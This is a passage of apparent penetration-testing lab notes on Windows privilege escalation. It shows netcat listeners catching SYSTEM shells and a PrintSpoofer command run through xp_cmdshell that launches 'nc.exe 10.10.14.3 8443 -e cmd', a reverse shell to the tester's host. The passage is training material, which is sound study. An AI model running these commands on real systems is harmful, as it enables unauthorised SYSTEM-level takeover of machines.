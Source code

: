 #### Catching SYSTEM Shell

```c
$ sudo nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 50332
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01
```

### PrintSpoofer and RoguePotato

- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

#### Escalating Privileges using PrintSpoofer

```c
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

output                                                                             

--------------------------------------------------------------------------------   

[+] Found privilege: SeImpersonatePrivilege                                        

[+] Named pipe listening...                                                        

[+] CreateProcessAsUser() OK                                                       

NULL 
```

#### Catching Reverse Shell as SYSTEM

```c
$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```
